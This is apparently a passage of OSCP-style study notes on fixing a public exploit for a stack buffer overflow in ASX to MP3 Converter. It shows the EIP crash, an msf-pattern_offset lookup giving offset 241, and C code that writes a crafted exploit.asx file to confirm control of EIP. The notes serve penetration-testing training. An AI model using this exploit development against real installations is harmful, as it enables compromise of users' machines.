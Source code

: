Use the unique string within the poc. Run the exploit. We get an access violation at EIP 69413069
![6826df234454faf9dc60e2624e6aa88b.png](:/05214b7ceb3c4376bc6cda4c2a2fb502)

Determine the exact offset using msf-pattern_offset
```plaintext
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ msf-pattern_offset -l 250 -q 69413069[*] Exact match at offset 241
```

Here is the code to verify offset:
```c
kali@kali:~/gitWorkspace/pwk/oscpExercises/15_fixingExploits/asx_mp3_converter$ cat 3_verify_offset.c 
/*
ASX to MP3 Converter SOF - Ivan Ivanovic Ivanov Иван-дурак
недействительный 31337 Team
holahola ~ https://www.exploit-db.com/exploits/38382/
Winblows 2k3
*/

#include <stdio.h>
#include <windows.h>
#include <malloc.h>

int main() {

    /* msf-pattern_create -l 250 */
    /* filler = 241 */
    /* eip = 4 */
    /* pad = 5 */
    char pattern[] =    "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
                        "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCC";

    char *overwrite_offset = malloc(250);
    memcpy(overwrite_offset, pattern, strlen(pattern));
    memset(overwrite_offset + _msize(overwrite_offset) - 1, 0x00, 1);

    int buffer_size = _msize(overwrite_offset);
    char *buffer = malloc(buffer_size);

    memcpy(buffer, overwrite_offset, _msize(overwrite_offset));
    memset(buffer + buffer_size - 1, 0x00, 1);

    FILE * fp;
    fp = fopen("exploit.asx","w");
    fprintf(fp, buffer); 
    fclose(fp);

    return 0;

}
```
